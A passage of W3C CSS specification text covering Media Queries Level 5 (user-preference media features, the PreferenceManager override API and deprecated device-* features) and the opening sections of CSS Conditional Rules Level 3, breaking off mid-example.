>   /* special styles for when script is allowed */
> }
> /* etc */
> ```

#### 10.1.  Script-based Custom Media Queries {#mediaqueries-5:script-custom-mq}

> **Issue:** Define a map of names to values for JS. Values can be either a MediaQueryList object or a boolean, in which case it’s treated identically to the above, or can be a number or a string, in which case it’s treated like a normal MQ, and can use the normal or range context syntax. Like:
>
> ```
> <script>
> CSS.customMedia.set('--foo', 5);
> </script>
> <style>
> @media (_foo: 5) { ... }
> @media (_foo < 10) { ... }
> </style>
> ```

### 11.  CSSOM {#mediaqueries-5:custom-mq-cssom}

The `CSSCustomMediaRule` interface represents a `@custom-media` rule.

```webidl
typedef (MediaList or boolean) CustomMediaQuery;

[Exposed=Window]
interface CSSCustomMediaRule : CSSRule {
  readonly attribute CSSOMString name;
  readonly attribute CustomMediaQuery query;
};
```

****`name`**,  of type CSSOMString, readonly**

: Returns a CSSOMString representing the `<extension-name>` of the `@custom-media` rule.

****`query`**,  of type CustomMediaQuery, readonly**

: Represents the value of the custom media query. The returned `CustomMediaQuery` will be one of the following:

  - A `MediaList` object, if the rule was defined with a `<media-query-list>`.
  - The boolean true, if the rule was defined with the value `true`.
  - The boolean false, if the rule was defined with the value `false`.

### 12.  User Preference Media Features {#mediaqueries-5:mf-user-preferences}

#### 12.1.  Detecting the desire for less motion on the page: the `prefers-reduced-motion` feature {#mediaqueries-5:prefers-reduced-motion}

| Field | Value |
| --- | --- |
| Name: | **prefers-reduced-motion** |
| For: | `@media` |
| Value: | no-preference \| reduce |
| Type: | discrete |

The `prefers-reduced-motion` media feature is used to detect if the user has requested the system minimize the amount of non-essential motion it uses.

****no-preference****

: Indicates that the user has made no preference known to the system. This keyword value evaluates as false in the boolean context.

****reduce****

: Indicates that user has notified the system that they prefer an interface that removes or replaces the types of motion-based animation that either trigger discomfort for those with vestibular motion sensitivity, or distraction for those with attention deficits.

#### 12.2.  Detecting the desire for reduced transparency on the page: the `prefers-reduced-transparency` feature {#mediaqueries-5:prefers-reduced-transparency}

| Field | Value |
| --- | --- |
| Name: | **prefers-reduced-transparency** |
| For: | `@media` |
| Value: | no-preference \| reduce |
| Type: | discrete |

The `prefers-reduced-transparency` media feature is used to detect if the user has requested the system minimize the amount of transparent or translucent layer effects it uses.

****no-preference****

: Indicates that the user has made no preference known to the system. This keyword value evaluates as false in the boolean context.

****reduce****

: Indicates that user has notified the system that they prefer an interface that minimizes the amount of transparent or translucent layer effects.

> **Issue:** How does this interact with preferences around e.g. pattern fills and backgrounds? They’re not about transparency, but they also interfere with shape recognition.

#### 12.3.  Detecting the desire for increased or decreased color contrast from elements on the page: the `prefers-contrast` feature {#mediaqueries-5:prefers-contrast}

| Field | Value |
| --- | --- |
| Name: | **prefers-contrast** |
| For: | `@media` |
| Value: | no-preference \| less \| more \| custom |
| Type: | discrete |

The `prefers-contrast` media feature is used to detect if the user has requested more or less contrast in the page. This could be responded to, for example, by adjusting the contrast ratio between adjacent colors, or by changing how much elements stand out visually, such as by adjusting their borders.

****no-preference****

: Indicates that the user has made no preference known to the system. This keyword value evaluates as false in the boolean context.

****less****

: Indicates that user has notified the system that they prefer an interface that has a lower level of contrast.

****more****

: Indicates that user has notified the system that they prefer an interface that has a higher level of contrast.

****custom****

: Indicates that the user has indicated wanting a specific set of colors to be used, but the contrast implied by these particular colors is such that neither `more` nor `less` match.

  > **Note:** This value will match for users of forced colors mode who have picked a palette that is neither particularly high nor low contrast. See [§ 12.4 Detecting Forced Colors Mode: the forced-colors feature](#mediaqueries-5:forced-colors).

  > **Example:** A user calling for cyan text over a rust background is not—​at least in terms of luminosity—​expressing a need for particularly high or low contrast, but this is not a lack of a preference either.

> **Note:** Authors can respond to specific user preferences for more or less contrast using `prefers-contrast: more` or `prefers-contrast: less`, as appropriate.
>
> Using an unqualified `@media (prefers-contrast) { … }` to apply high contrast styles is incorrect and user-hostile, as it would also impose high contrast styles to people who have requested the exact opposite.
>
> However, it is also common to reduce visual clutter and color complexity in response to both high and low contrast preferences. In that case, it is appropriate to use `@media (prefers-contrast) { … }` without specifying `more` or `less`, to do things like replacing background images with plain colors, turning off decorative gradients, or replacing border images or box shadows with simple solid borders. As `prefers-contrast: custom`—​like `prefers-contrast: more` or `prefers-contrast: less`—​evaluates to true in a boolean context, such simplifications would also benefit users of forced colors mode, even when their colors of choice do not result in a particularly high or low contrast. This is desirable, as the reduced palette enforced by forced colors mode calls for some visual simplification of the page.

> **Example:** Preference for more or less contrast may arise from a variety of different situations. Here are some examples:
>
> - Many users have difficulty reading text that has a small difference in contrast to the text background and would prefer a larger contrast.
> - People suffering from migraine may find strongly contrasting pages to be visually painful and would prefer a low contrast.
> - Some people with dyslexia find high contrast text hard to read, as they feel that the letters shine / sparkle as if backlit by too bright a light, and find low contrast to be more comfortable.
> - Environmental factors may also lead a user to prefer more or less contrast. See also [§ 12.8 Automatic handling of User Preferences](#mediaqueries-5:auto-pref).
>
> > **Issue:** This list should be refined and expanded.

#### 12.4.  Detecting Forced Colors Mode: the `forced-colors` feature {#mediaqueries-5:forced-colors}

| Field | Value |
| --- | --- |
| Name: | **forced-colors** |
| For: | `@media` |
| Value: | none \| active |
| Type: | discrete |

****active****

: Indicates that forced colors mode is active: the user agent enforces a user-chosen limited color palette on the page, The UA will provide the color palette to authors through the CSS system color keywords. See [CSS Color Adjustment 1 § 3 Forced Color Palettes](#css-color-adjust-1:forced) for details.

  > **Advisement:** This does *not* necessarily indicate a preference for more contrast. The colors have been forcibly adjusted to match the preference of the user, but that preference can be for less or more contrast, or some other arrangement that is neither particularly low or high contrast.

  In addition to `forced-colors: active`, the user agent must also match one of `prefers-contrast: more` or `prefers-contrast: less` if it can determine that the forced color palette chosen by the user has a particularly high or low contrast, and must make `prefers-contrast: custom` match otherwise.

  Similarly, if the forced color palette chosen by the user fits within one of the color schemes described by `prefers-color-scheme`, the corresponding value must also match.

****none****

: Forced colors mode is not active.

> **Example:** When forced colors mode is active, the only colors that are available to the author are system colors. The user agent will enforce this limited palette automatically, but the author may choose a different way of using these colors, using the `forced-colors` media feature to detect when it is appropriate to do so.

#### 12.5.  Detecting the desire for light or dark color schemes: the `prefers-color-scheme` feature {#mediaqueries-5:prefers-color-scheme}

| Field | Value |
| --- | --- |
| Name: | **prefers-color-scheme** |
| For: | `@media` |
| Value: | light \| dark |
| Type: | discrete |

The `prefers-color-scheme` media feature reflects the user’s desire that the page use a light or dark color scheme.

****light****

: Indicates that the page color scheme is a light color scheme (dark text on light background).

****dark****

: Indicates that the page color scheme is a dark color scheme (light text on dark background).

> **Note:** The values for this feature might be expanded in the future (to express preferences for other types of color schemes like "sepia"). As such, the most future-friendly way to use this media feature is by negation such as `(prefers-color-scheme: dark)` and `(not (prefers-color-scheme: dark))`, which ensures that new values fall into at least one of the styling blocks.

The method by which the user expresses their preference can vary. It might be a system-wide setting exposed by the Operating System, or a setting controlled by the user agent.

> **Note:** User preferences can also vary by medium. For example, a user may prefer dark themes on a glowing screen, but light themes when printing (to save ink and/or because inked text on blank paper prints better than blank letterforms knocked out of an inked background). UAs are expected to take such variances into consideration so that `prefers-color-scheme` reflects preferences appropriate to the medium rather than preferences taken out of context.

##### 12.5.1.  Detecting Specifically the User’s Preferred Color Scheme: the `ua-color-scheme` feature {#mediaqueries-5:ua-prefers-color-scheme}

| Field | Value |
| --- | --- |
| Name: | **ua-color-scheme** |
| For: | `@media` |
| Value: | light \| dark |
| Type: | discrete |

The `prefers-color-scheme` media query reflects the page color scheme, which will generally reflect a user’s preferred color scheme, but might not if the page overrides that. (This is often done at the user’s behest, with a page-specific light/dark-mode toggle to implement a user’s desire for a particular page or origin to render light or dark, regardless of their *general* color scheme preference.) Also, embedded documents such as iframes automatically match the color scheme of the parent document rather than the user’s preference.

There are some use-cases for nevertheless detecting the user’s *actual* general preference, and the `ua-color-scheme` media feature reflects that, ignoring the effect of anything on the page, the effects of being an embedded document, etc.

****light****

: Indicates that the user’s preferred color scheme is a light color scheme (dark text on light background), or that the user has no preference.

  (If the user has not expressed an active preference, they will also receive the "web default" of a light theme).

****dark****

: Indicates that the user’s preferred color scheme is a dark color scheme (light text on dark background).

> **Note:** This feature, like the other `prefers-*` features, previously had a `no-preference` value to indicate a user not expressing an active preference. However, user agents converged on expressing the "default" behavior as a light color scheme preference, and never matching `no-preference`.
>
> If a future user agent wishes to expose a difference between "no preference" and "really wants a light display", please contact the CSSWG to discuss this.

> **Issue:** The CSSWG has not officially decided on a name for this feature, and so it might change in the future.

#### 12.6.  Detecting the desire for bold text on the page: the `prefers-bold-text` feature {#mediaqueries-5:prefers-bold-text}

The `prefers-bold-text` media feature is used to detect if the user has requested the system use bolder or heavier-weight text across the page.

| Field | Value |
| --- | --- |
| Name: | **prefers-bold-text** |
| For: | `@media` |
| Value: | no-preference \| bold |
| Type: | discrete |

****no-preference****

: Indicates that the user has made no preference known to the system. This keyword value evaluates as false in the boolean context.

****bold****

: Indicates that the user has notified the system that they prefer interface and page text to be rendered with a heavier/bolder weight.

> **Example:** For example, a site can increase its base font weight when the user prefers bold text:
>
> ```css
> body {
>   font-weight: 400;
> }
> @media (prefers-bold-text: bold) {
>   body {
>     font-weight: 600;
>   }
> }
> ```

> **Example:** A site that uses variable fonts can adjust a variable font’s grade axis (`GRAD`) to avoid layout shifts:
>
> ```css
> body {
>   font-family: "Roboto Flex", sans-serif;
>   font-variation-settings: 'wght' 400, 'GRAD' 0;
> }
> @media (prefers-bold-text: bold) {
>   body {
>     font-variation-settings: 'wght' 400, 'GRAD' 150;
>   }
> }
> ```

#### 12.7.  Detecting the desire for reduced data usage when loading a page: the `prefers-reduced-data` feature {#mediaqueries-5:prefers-reduced-data}

> **Issue:** This feature may be an undesired source of fingerprinting, with a bias towards low income with limited data. [[Issue #10076]](https://github.com/w3c/csswg-drafts/issues/10076)

| Field | Value |
| --- | --- |
| Name: | **prefers-reduced-data** |
| For: | `@media` |
| Value: | no-preference \| reduce |
| Type: | discrete |

The `prefers-reduced-data` media feature is used to detect if the user has a preference for being served alternate content that uses less data for the page to be rendered.

****no-preference****

: Indicates that the user has made no preference known to the system. This keyword value evaluates as false in the boolean context.

****reduce****

: Indicates that user has expressed the preference for lightweight alternate content.

The method by which the user expresses their preference can vary. It might be a system-wide setting exposed by the Operating System, or a setting controlled by the user agent. User agents may consider setting this based on the same user or system preference as they use to set the [Save-Data](https://wicg.github.io/savedata/) HTTP request header.

> **Note:** User agents are encouraged to use their own user centered discretion when handling a toggle of this value, whether it’s toggled post page load or during page load. A primary goal could be to not download unnecessary data. Consider, if a page is already loaded with high quality assets and the user changes their preference to reduced, the page could perhaps not update the document right away, instead wait for an explicit page reload invocation from the user. Consider also, if a page is taking a long time to download and a user changes their preference to reduced, this could be a nice point to save the user’s bandwidth and immediately switch to downloading smaller assets. User agents are free to implement logic as they see appropriate for situations like these, and also ought to be aware the situations exist.

> **Example:** For example, a site could honour the preference of a user who has turned on data-saving mode by serving a smaller image.
>
> ```
> .image {
>   background-image: url("images/heavy.jpg");
> }
>
> @media (prefers-reduced-data: reduce) {
>   /* Save-Data: On */
>   .image {
>     background-image: url("images/light.jpg");
>   }
> }
> ```

#### 12.8.  Automatic handling of User Preferences {#mediaqueries-5:auto-pref}

User agents may have explicit settings allowing users to indicate their preferences or may make the determination based on settings in the underlying operating system. User agents may also automatically infer the preferences of the user based on knowledge about the device, the environment, etc. In such case, it is recommended that they also offer a way for users to opt out of or override the automatically determined preferences.

> **Example:** In addition to allowing users to explicitly choose between a preference for a `light` or `dark` color scheme, a user agent could have a mode where the determination is automatically made based on the current time, expressing a preference for `dark` between sunset and dawn.

> **Example:** Depending on the type of display used, changes in the ambient light level may make the reading experience difficult or uncomfortable.
>
> For instance, liquid crystal displays can be washed out and very hard to read in brightly lit environments. A device with such a screen and with an ambient light sensor could automatically switch `prefers-contrast` to `more` when it detects conditions that would make the screen difficult to read. A user agent on a device with an e-ink display would not make the same adjustment, as such displays remain readable in bright daylight.
>
> In the opposite situation, user agents running of device with a light-emitting screen (LCD, OLED, etc.) and an ambient light sensor could automatically switch `prefers-contrast` to `less` and `prefers-color-scheme` to `dark` when used in a dim environment where excessive contrast and brightness would be distracting or uncomfortable to the reader.

> **Example:** A user agent could automatically switch between `prefers-reduced-data: no-preference` and `reduce` depending on whether the network connection in use allows for unlimited data or is on a metered plan.

### 13.  Script Control of User Preferences {#mediaqueries-5:script-control-user-prefs}

It is common for website authors to want to respect the user’s system preferences while also allowing those preferences to be overridden. To help with this, this specification defines a way for authors to override the [§ 12 User Preference Media Features](#mediaqueries-5:mf-user-preferences) using the `PreferenceManager` interface.

This override allows the preference to integrate with various platform features that are affected by these preferences.

#### 13.1.  Extensions to the `Navigator` interface {#mediaqueries-5:navigator-interface}

```webidl
[Exposed=Window, SecureContext]
partial interface Navigator {
	[SameObject] readonly attribute PreferenceManager preferences;
};
```

##### 13.1.1.  `preferences` attribute {#mediaqueries-5:preferences-attribute}

When getting the `preferences` attribute always return the same instance of the `PreferenceManager` object.

##### 13.1.2. `PreferenceManager` interface {#mediaqueries-5:preference-manager}

```webidl
[Exposed=Window, SecureContext]
interface PreferenceManager {
	readonly attribute PreferenceObject colorScheme;
	readonly attribute PreferenceObject contrast;
	readonly attribute PreferenceObject reducedMotion;
	readonly attribute PreferenceObject reducedTransparency;
	readonly attribute PreferenceObject reducedData;
};
```

##### 13.1.3.  `colorScheme` attribute {#mediaqueries-5:color-scheme-attribute}

The `colorScheme` attribute is a `PreferenceObject` used to override the user’s preference for the color scheme of the site. This is modeled after the [§ 12.5 Detecting the desire for light or dark color schemes: the prefers-color-scheme feature](#mediaqueries-5:prefers-color-scheme).

The **get valid values for colorScheme** algorithm, when invoked, must run these steps:

1. Let *validValues* be a new empty sequence.
2. Add "light" to *validValues*.
3. Add "dark" to *validValues*.
4. Return *validValues*.

If an override is set for this preference:

- The user agent MUST use this override for the [§ 12.5 Detecting the desire for light or dark color schemes: the prefers-color-scheme feature](#mediaqueries-5:prefers-color-scheme) in all stylesheets applied to an origin including the UA style sheet.
- The user agent MUST also use this override when queried via `matchMedia()` from [CSSOM View § 4 Extensions to the Window Interface](#cssom-view-1:extensions-to-the-window-interface).
- The user agent MUST also use this override when calculating the used color scheme.
- The user agent MUST also use this override when sending [User Preference Media Features Client Hints Headers § 2.5 Sec-CH-Prefers-Color-Scheme](https://wicg.github.io/user-preference-media-features-headers/#sec-ch-prefers-color-scheme).
- The user agent MUST also use this override for any UA features that are normally affected by [§ 12.5 Detecting the desire for light or dark color schemes: the prefers-color-scheme feature](#mediaqueries-5:prefers-color-scheme).

##### 13.1.4.  `contrast` attribute {#mediaqueries-5:contrast-attribute}

The `contrast` attribute is a `PreferenceObject` used to override the user’s preference for the contrast of the site. This is modeled after the [§ 12.3 Detecting the desire for increased or decreased color contrast from elements on the page: the prefers-contrast feature](#mediaqueries-5:prefers-contrast).

The **get valid values for contrast** algorithm, when invoked, must run these steps:

1. Let *validValues* be a new empty sequence.
2. Add `more` to *validValues*.
3. Add `less` to *validValues*.
4. Add `no-preference` to *validValues*.
5. Return *validValues*.

If an override is set for this preference:

- The user agent MUST use this override for the [§ 12.3 Detecting the desire for increased or decreased color contrast from elements on the page: the prefers-contrast feature](#mediaqueries-5:prefers-contrast) in all stylesheets applied to an origin including the UA style sheet.
- The user agent MUST also use this override when queried via `matchMedia()` from [CSSOM View § 4 Extensions to the Window Interface](#cssom-view-1:extensions-to-the-window-interface).
- The user agent MUST also use this override when sending [User Preference Media Features Client Hints Headers § 2.3 Sec-CH-Prefers-Contrast](https://wicg.github.io/user-preference-media-features-headers/#sec-ch-prefers-contrast).
- The user agent MUST also use this override for any UA features that are normally affected by [§ 12.3 Detecting the desire for increased or decreased color contrast from elements on the page: the prefers-contrast feature](#mediaqueries-5:prefers-contrast).

> **Note:** Unlike the media feature this preference is NOT able to be set to `custom` as this is tightly coupled to the [§ 12.4 Detecting Forced Colors Mode: the forced-colors feature](#mediaqueries-5:forced-colors).

##### 13.1.5.  `reducedMotion` attribute {#mediaqueries-5:reduced-motion-attribute}

The `reducedMotion` attribute is a `PreferenceObject` used to override the user’s preference for reduced motion on the site. This is modeled after the [§ 12.1 Detecting the desire for less motion on the page: the prefers-reduced-motion feature](#mediaqueries-5:prefers-reduced-motion).

The **get valid values for reducedMotion** algorithm, when invoked, must run these steps:

1. Let *validValues* be a new empty sequence.
2. Add `reduce` to *validValues*.
3. Add `no-preference` to *validValues*.
4. Return *validValues*.

If an override is set for this preference:

- The user agent MUST use this override for the [§ 12.1 Detecting the desire for less motion on the page: the prefers-reduced-motion feature](#mediaqueries-5:prefers-reduced-motion) in all stylesheets applied to an origin including the UA style sheet.
- The user agent MUST also use this override when queried via `matchMedia()` from [CSSOM View § 4 Extensions to the Window Interface](#cssom-view-1:extensions-to-the-window-interface).
- The user agent MUST also use this override when sending [User Preference Media Features Client Hints Headers § 2.1 Sec-CH-Prefers-Reduced-Motion](https://wicg.github.io/user-preference-media-features-headers/#sec-ch-prefers-reduced-motion).
- The user agent MUST also use this override for any UA features that are normally affected by [§ 12.1 Detecting the desire for less motion on the page: the prefers-reduced-motion feature](#mediaqueries-5:prefers-reduced-motion).

> **Note:** An example of a UA feature that is affected by this preference could be disabling smooth scrolling, or pausing marquee elements.

##### 13.1.6.  `reducedTransparency` attribute {#mediaqueries-5:reduced-transparency-attribute}

The `reducedTransparency` attribute is a `PreferenceObject` used to override the user’s preference for reduced transparency on the site. This is modeled after the [§ 12.2 Detecting the desire for reduced transparency on the page: the prefers-reduced-transparency feature](#mediaqueries-5:prefers-reduced-transparency).

The **get valid values for reducedTransparency** algorithm, when invoked, must run these steps:

1. Let *validValues* be a new empty sequence.
2. Add `reduce` to *validValues*.
3. Add `no-preference` to *validValues*.
4. Return *validValues*.

If an override is set for this preference:

- The user agent MUST use this override for the [§ 12.2 Detecting the desire for reduced transparency on the page: the prefers-reduced-transparency feature](#mediaqueries-5:prefers-reduced-transparency) in all stylesheets applied to an origin including the UA style sheet.
- The user agent MUST also use this override when queried via `matchMedia()` from [CSSOM View § 4 Extensions to the Window Interface](#cssom-view-1:extensions-to-the-window-interface).
- The user agent MUST also use this override when sending [User Preference Media Features Client Hints Headers § 2.2 Sec-CH-Prefers-Reduced-Transparency](https://wicg.github.io/user-preference-media-features-headers/#sec-ch-prefers-reduced-transparency).
- The user agent MUST also use this override for any UA features that are normally affected by [§ 12.2 Detecting the desire for reduced transparency on the page: the prefers-reduced-transparency feature](#mediaqueries-5:prefers-reduced-transparency).

##### 13.1.7.  `reducedData` attribute {#mediaqueries-5:reduced-data-attribute}

The `reducedData` attribute is a `PreferenceObject` used to override the user’s preference for reduced data usage on the site. This is modeled after the [§ 12.7 Detecting the desire for reduced data usage when loading a page: the prefers-reduced-data feature](#mediaqueries-5:prefers-reduced-data).

The **get valid values for reducedData** algorithm, when invoked, must run these steps:

1. Let *validValues* be a new empty sequence.
2. Add `reduce` to *validValues*.
3. Add `no-preference` to *validValues*.
4. Return *validValues*.

If an override is set for this preference:

- The user agent MUST use this override for the [§ 12.7 Detecting the desire for reduced data usage when loading a page: the prefers-reduced-data feature](#mediaqueries-5:prefers-reduced-data) in all stylesheets applied to an origin including the UA style sheet.
- The user agent MUST also use this override when queried via `matchMedia()` from [CSSOM View § 4 Extensions to the Window Interface](#cssom-view-1:extensions-to-the-window-interface).
- The user agent MUST also use this override when sending [Save Data API § 2.1.1 Save-Data Request Header Field](https://wicg.github.io/savedata/#save-data-request-header-field).
- The user agent MUST also use this override when calculating the [Save Data API § 2.1 saveData attribute](https://wicg.github.io/savedata/#savedata-attribute).
- The user agent MUST also use this override for any UA features that are normally affected by [§ 12.7 Detecting the desire for reduced data usage when loading a page: the prefers-reduced-data feature](#mediaqueries-5:prefers-reduced-data).

##### 13.1.8.  `PreferenceObject` interface {#mediaqueries-5:preference-object-interface}

```webidl
[Exposed=Window, SecureContext]
interface PreferenceObject : EventTarget {
	readonly attribute DOMString? override;
	readonly attribute DOMString value;
	readonly attribute FrozenArray<DOMString> validValues;

	undefined clearOverride();
	Promise<undefined> requestOverride(DOMString? value);

	attribute EventHandler onchange;
};
```

###### 13.1.8.1.  `override` attribute {#mediaqueries-5:override-attribute}

The **`override`** attribute, when accessed, must run these steps:

1. Let *preference* be the preference object’s name.
2. Let *override* be null.
3. If an override for *preference* exists, set *override* to the value of that override.
4. Return *override*.

###### 13.1.8.2.  `value` attribute {#mediaqueries-5:preference-value-attribute}

The **`value`** attribute, when accessed, must run these steps:

1. Let *preference* be the preference object’s name.
2. Let *value* be null.
3. If an override for *preference* exists, set *value* to the value of that override.
4. If *value* is null, set *value* to the UA value of the preference.
5. Return *value*.

###### 13.1.8.3.  `validValues` attribute {#mediaqueries-5:valid-values-attribute}

The **`validValues`** attribute, when accessed, must run these steps:

1. Let *preference* be the preference object’s name.
2. Switch on *preference*:

   **"`colorScheme`"**

   : Return the result of get valid values for colorScheme.

   **"`contrast`"**

   : Return the result of get valid values for contrast.

   **"`reducedMotion`"**

   : Return the result of get valid values for reducedMotion.

   **"`reducedTransparency`"**

   : Return the result of get valid values for reducedTransparency.

   **"`reducedData`"**

   : Return the result of get valid values for reducedData.

###### 13.1.8.4.  `onchange` event handler attribute {#mediaqueries-5:onchange-attribute}

The **`onchange`** attribute is an event handler IDL attribute for the `onchange` event handler, whose event handler event type is **change**.

Whenever the user agent is aware that the state of a `PreferenceObject` instance *value* has changed, it runs the **`PreferenceObject` update steps**:

1. Let *preference* be the `PreferenceObject` object that *value* is associated with.
2. If this’s relevant global object is a `Window` object, then:

  1. Let *document* be *preference*’s relevant global object’s associated Document.
  2. If *document* is null or *document* is not fully active, terminate this algorithm.
3. Fire an event named `change` at *preference*.

###### 13.1.8.5.  `requestOverride()` method {#mediaqueries-5:request-override-method}

The **`requestOverride(value)`** method, when invoked, must run these steps:

1. Let *result* be a new promise.
2. Let *allowed* be false.
3. Set *allowed* to the result of executing a UA defined algorithm for deciding whether the request is allowed.
4. If *allowed* is false, return a promise rejected with a "`NotAllowedError`" `DOMException`.
5. Let *value* be the method’s argument.
6. Let *result* be a new promise.
7. If *value* is null or the empty string:

  1. Run `clearOverride`.
  2. Resolve and return *result*.
8. Let *currentValue* be the preference object’s *value*.
9. Let *validValues* be null.
10. Switch on *preference*:

   **"`colorScheme`"**

   : Set *validValues* to the result of get valid values for colorScheme.

   **"`contrast`"**

   : Set *validValues* to the result of get valid values for contrast.

   **"`reducedMotion`"**

   : Set *validValues* to the result of get valid values for reducedMotion.

   **"`reducedTransparency`"**

   : Set *validValues* to the result of get valid values for reducedTransparency.

   **"`reducedData`"**

   : Set *validValues* to the result of get valid values for reducedData.
11. If *value* is not in *validValues*:

  1. Reject *result* with a "`TypeError`" `DOMException`.
  2. Return *result*.
12. Let *previousOverride* be null.
13. If an override for *preference* exists, set *previousOverride* to the value of that override.
14. If *value* is different from *previousOverride*:

  1. Set the preference override for *preference* to *value*.
15. If *previousOverride* is null, then:

  1. If *value* is the same as *currentValue*, then:

    1. Fire an event named `change` at this.
16. Resolve and return *result*.

> **Issue:** This algorithm needs more detail on what exactly setting the preference override does.

> **Issue:** Is TypeError correct here?

> **Note:** The `change` event is fired when the computed value changes, but when a new override is set it is also fired if the value hasn’t changed.

###### 13.1.8.6.  `clearOverride()` method {#mediaqueries-5:clear-override-method}

The **`clearOverride()`** method, when invoked, must run these steps:

1. Let *preference* be the preference object’s name.
2. Let *override* be null.
3. If an override for *preference* exists, set *override* to the value of that override.
4. If *override* is null, then return.
5. Clear the override for *preference*.
6. Let *newValue* be the preference object’s value.
7. If *newValue* is equal to *override*, then:
8. Fire an event named `change` at this.

> **Note:** The `change` event is fired when the computed value changes, but when an override is cleared it is also fired if the value hasn’t changed.

### Appendix A: Deprecated Media Features {#mediaqueries-5:mf-deprecated}

The following media features are **deprecated**. They are kept for backward compatibility, but are not appropriate for newly written style sheets. Authors must not use them. User agents must support them as specified.

> **Note:** To query for the size of the viewport (or the page box on page media), the `width`, `height` and `aspect-ratio` media features should be used, rather than `device-width`, `device-height` and `device-aspect-ratio`, which refer to the physical size of the device regardless of how much space is available for the document being laid out. The device-* media features are also sometimes used as a proxy to detect mobile devices. Instead, authors should use media features that better represent the aspect of the device that they are attempting to style against.

#### device-width {#mediaqueries-5:device-width}

| Field | Value |
| --- | --- |
| Name: | **device-width** |
| For: | `@media` |
| Value: | `<length>` |
| Type: | range |

The `device-width` media feature describes the width of the rendering surface of the output device. For continuous media, this is the width of the Web-exposed screen area. For paged media, this is the width of the page sheet size.

`device-width` is false in the negative range.

> **Example:** ```
> @media (device-width < 800px) { … }
> ```
>
> In the example above, the style sheet will apply only to screens less than `800px` in length. The `px` unit is of the logical kind, as described in the [Units](#mediaqueries-5:units) section.

> **Note:** If a device can be used in multiple orientations, such as portrait and landscape, the `device-*` media features reflect the current orientation.

#### device-height {#mediaqueries-5:device-height}

| Field | Value |
| --- | --- |
| Name: | **device-height** |
| For: | `@media` |
| Value: | `<length>` |
| Type: | range |

The `device-height` media feature describes the height of the rendering surface of the output device. For continuous media, this is the height of the Web-exposed screen area. For paged media, this is the height of the page sheet size.

`device-height` is false in the negative range.

> **Example:** ```
> <link rel="stylesheet" media="(device-height > 600px)" />
> ```
>
> In the example above, the style sheet will apply only to screens taller than 600 vertical pixels. Note that the definition of the `px` unit is the same as in other parts of CSS.

#### device-aspect-ratio {#mediaqueries-5:device-aspect-ratio}

| Field | Value |
| --- | --- |
| Name: | **device-aspect-ratio** |
| For: | `@media` |
| Value: | `<ratio>` |
| Type: | range |

The `device-aspect-ratio` media feature is defined as the ratio of the value of the `device-width` media feature to the value of the `device-height` media feature.

> **Example:** For example, if a screen device with square pixels has 1280 horizontal pixels and 720 vertical pixels (commonly referred to as “16:9”), the following media queries will all match the device:
>
> ```
> @media (device-aspect-ratio: 16/9) { … }
> @media (device-aspect-ratio: 32/18) { … }
> @media (device-aspect-ratio: 1280/720) { … }
> @media (device-aspect-ratio: 2560/1440) { … }
> ```

---

## CSS Conditional Rules Module Level 3 {#css-conditional-3}

- **Shortname:** `css-conditional-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-conditional-3/](https://drafts.csswg.org/css-conditional-3/)
- **Published TR:** [https://www.w3.org/TR/css-conditional-3/](https://www.w3.org/TR/css-conditional-3/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-10-08

### 1. Introduction {#css-conditional-3:introduction}

#### 1.1. Background {#css-conditional-3:context}

*This section is not normative.*

[CSS21] defines one type of conditional group rule, the `@media` rule, and allows only style rules (not other @-rules) inside of it. The `@media` rule provides the ability to have media-specific style sheets, which is also provided by style sheet linking features such as `@import` and `link`. The restrictions on the contents of `@media` rules made them less useful; they have forced authors using CSS features involving @-rules in media-specific style sheets to use separate style sheets for each medium.

This specification extends the rules for the contents of conditional group rules to allow other @-rules, which enables authors to combine CSS features involving @-rules with media specific style sheets within a single style sheet.

This specification also defines an additional type of conditional group rule, `@supports`, to address author and user requirements.

The `@supports` rule allows CSS to be conditioned on implementation support for CSS properties and values. This rule makes it much easier for authors to use new CSS features and provide good fallback for implementations that do not support those features. This is particularly important for CSS features that provide new layout mechanisms, and for other cases where a set of related styles needs to be conditioned on property support.

#### 1.2. Module Interactions {#css-conditional-3:placement}

This module replaces and extends the `@media` rule feature defined in [CSS21] section 7.2.1 and incorporates the modifications previously made non-normatively by [MEDIAQUERIES-4] section 1.

### 2. Processing of conditional group rules {#css-conditional-3:processing}

This specification defines some CSS at-rules, called **conditional group rules**, that associate a condition with a group of other CSS rules. These different rules allow testing different types of conditions, but share common behavior for how their contents are used when the condition is true and when the condition is false.

> **Example:** For example, this rule:
>
> ```
> @media print {
>   /* hide navigation controls when printing */
>   #navigation { display: none }
> }
> ```
>
> causes a particular CSS rule (making elements with ID “navigation” be display:none) apply only when the style sheet is used for a print medium.

Each conditional group rule has a condition, which at any time evaluates to true or false. When the condition is true, CSS processors **must** apply the rules inside the group rule as though they were at the group rule’s location; when the condition is false, CSS processors **must not** apply any of rules inside the group rule. The current state of the condition does not affect the CSS object model, in which the contents of the group rule always remain within the group rule.

This means that when multiple conditional group rules are nested, a rule inside of both of them applies only when all of the rules' conditions are true.

> **Example:** For example, with this set of nested rules:
>
> ```
> @media print { /* rule (1) */
>   /* hide navigation controls when printing */
>   #navigation { display: none }
>   @media (max-width: 12cm) { /* rule (2) */
>     /* keep notes in flow when printing to narrow pages */
>     .note { float: none }
>   }
> }
> ```
>
> the condition of the rule marked (1) is true for print media, and the condition of the rule marked (2) is true when the width of the display area (which for print media is the page box) is less than or equal to 12cm. Thus the rule `#navigation { display: none }` applies whenever this style sheet is applied to print media, and the rule `.note { float: none }` is applied only when the style sheet is applied to print media *and* the width of the page box is less than or equal to 12 centimeters.

When the condition for a conditional group rule changes, CSS processors **must** reflect that the rules now apply or no longer apply, except for properties whose definitions define effects of computed values that persist past the lifetime of that value (such as for some properties in [CSS3-TRANSITIONS] and [CSS3-ANIMATIONS]).

### 3.  Contents of conditional group rules {#css-conditional-3:contents-of}

All conditional group rules are defined to take a `<rule-list>` in their block, and accept any rule that is normally allowed at the top-level of a stylesheet, and not otherwise restricted. (For example, an `@import` rule must appear at the actual beginning of a stylesheet, and so is not valid inside of another rule.)

Invalid or unknown rules inside the `<rule-list>` must be considered invalid and ignored, but do not invalidate the conditional group rule.

Any namespace prefixes used in a conditional group rule must have been declared, otherwise they are invalid.

> **Example:** For example, this rule containing a CSS qualified name is valid, because the namespace prefix has been bound to a namespace url:
>
> ```
> @namespace x url(http://www.w3.org/1999/xlink);
> @supports (content: attr(x|href)) {
>   // do something }
> ```

> **Example:** For example, to determine whether this rule is valid:
>
> ```
> @supports (content: attr(n|tooltip)) {
>   // do something }
> ```
>
